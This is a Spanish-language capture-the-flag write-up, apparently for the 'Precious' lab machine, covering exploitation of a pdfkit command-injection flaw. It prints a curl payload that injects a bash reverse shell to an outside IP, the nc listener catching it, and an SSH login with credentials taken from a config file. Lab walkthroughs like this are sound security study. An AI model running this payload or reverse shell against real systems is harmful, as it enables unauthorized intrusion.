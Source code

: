 Vemos que lo que se esta empleando por detras para generar los pdf es pdfkit busquemos esto en google para ver si tiene vulnerabilidades

![](/assets/img/precious/kit.png)

Vemos que hay que tiene una vulnerabilidad de injeccion de comandos 

En esta [pagina](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) explican un poco la vulnerabilidad y muestran un poc para explotarla 

Shell como ruby

Modificamos el payload de la pagina para que nos mande una shell directamente

```bash
❯ curl -s http://precious.htb/ --data-urlencode "url=http://example.com/?name=#{'%20\`bash -c 'exec bash -i &>/dev/tcp/10.10.14.110/4444 <&1'\`'}"
```

Nos ponemos en escucha con nc

```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.189] 40740
bash: cannot set terminal process group (657): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
ruby
bash-5.1$ 
```
Y obtenemos la revershell

## Movimiento lateral
enumerando un poco el sistema vemos que hay un directorio .bundle y en el hay un archivo config si vemos el contenido de este archivo hay credenciales en texto claro
```bash
-bash-5.1$ cat .bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
-bash-5.1$ 
```
Migremos a este usuario Conectandonos por ssh
```bash
❯ sshpass -p 'Q3c1AqGHtoI0aXAYFH' ssh henry@10.10.11.189
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb  9 16:28:04 2023 from 10.10.14.115
-bash-5.1$ 
```
